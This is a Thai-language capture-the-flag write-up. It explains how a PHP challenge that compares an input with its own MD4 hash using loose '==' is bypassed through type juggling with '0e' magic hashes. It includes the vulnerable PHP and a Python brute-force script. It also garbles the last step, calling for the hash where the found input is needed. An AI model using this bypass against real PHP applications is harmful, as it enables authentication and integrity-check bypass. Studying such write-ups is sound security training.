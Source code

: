 > การเข้า Hash แบบไม่ถูกต้องจะไม่ปลอดภัยอีกต่อไป
> 
> 
> https://comparing.sspk.xyz
> 
> หมายเหตุ รูปแบบของ Flag ที่เป็นคำตอบของข้อนี้คือ flag{…}
>

![image](https://github.com/user-attachments/assets/d41ab499-6e80-448c-b484-2b6e5812169f)

WTF is that!? ไหนลองมาดูโค้ดซิ

```php
<?php
    $flag = (file_get_contents("../flag.txt"));
    if(isset($_GET['md4'])){
        if ($_GET["md4"] == hash("md4", $_GET["md4"])){
                echo $flag;
            }
            else{
                echo nl2br("Part 1/2: flag{Php_1s\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\n\nHint: I like PHP comparing str.");
            }
    }
    else {
        show_source(__FILE__);
    }
    
?>
```

จะเห็นได้ว่าตัวโจทย์จะทำการดึงค่า flag ออกมา เมื่อค่า hash MD4 ที่ได้รับมาตรงกับค่าที่กำหนดไว้ แต่ถ้ามาดูบรรทัดการเทียบค่าดีๆ

```php
if ($_GET["md4"] == hash("md4", $_GET["md4"]))
```

ในขั้นตอนการเปรียบเทียบจะใช้เครื่องหมาย `==` แทน `===` ซึ่งเรียกว่า “PHP loose comparison vulnerability” ทำให้ PHP จะเปรียบเทียบค่าหลังจากแปลงเป็นตัวเลข (ต่างจาก `===` ที่เทียบทั้งค่า strings value และ file type) 
เราสามารถ bypass comparing นี้ด้วยวิธีการทำ “PHP Juggling” ได้ โดยค่า hash ที่ว่าต้องขึ้นต้นด้วย `0e` และตามด้วย strings เป็นตัวเลขเท่านั้น จึงจะหลอกให้ PHP แปลงค่า strings ที่ตามหลังทั้งหมดให้เป็นตัวเลขจริงๆ
ทีนี้ลองมาใส่ค่า random เพื่อดูว่า ถ้าค่าไม่ถูกต้อง เราจะได้แค่ flag ส่วนแรกเท่านั้น

![image](https://github.com/user-attachments/assets/d371a329-686d-415c-ac76-2061c0b01e7d)

พอได้แบบนี้แล้วก็มาเขียน script เพื่อหา hash collision มาดูว่า MD4 ตัวไหนที่เทียบกันแล้วได้ค่าไม่เท่ากัน

```python
import hashlib
import re

prefix = "0e"
iters = 0

while True:
    candidate = prefix + str(iters)  # Example: "0e12345"
    md4_hash = hashlib.new('md4', candidate.encode()).hexdigest()  # Calculate MD4 hash

    if re.match(r"^0e\d{30}$", md4_hash):  # Check if it follows the "0e..." pattern
        print(f"[+] Found! md4({candidate}) ---> {md4_hash}")
        print(f"[+] Success after {iters} iterations")
        break  # Stop when we find a valid hash

    iters += 1

    if iters % 1000000 == 0:
        print(f"[+] Current attempt: {candidate}, Iterations: {iters}, Still searching...")
```

ปล. เนื่องจากต้องวนลูป brute force เพื่อหาค่าที่ถูกต้อง ต้องทำใจและรอเวลามันซักพักใหญ่ๆ

![image](https://github.com/user-attachments/assets/ca912abe-62ef-464d-a569-2c1b2d6ccffe)

พอได้ค่าแล้วก็เอา MD4 hash ไปใส่ใน `/?md4=` ต่อท้าย URL เพื่อดึงค่า flag ออกมา

![image](https://github.com/user-attachments/assets/e4f6c862-7f89-4d9a-be85-42aceea59936)
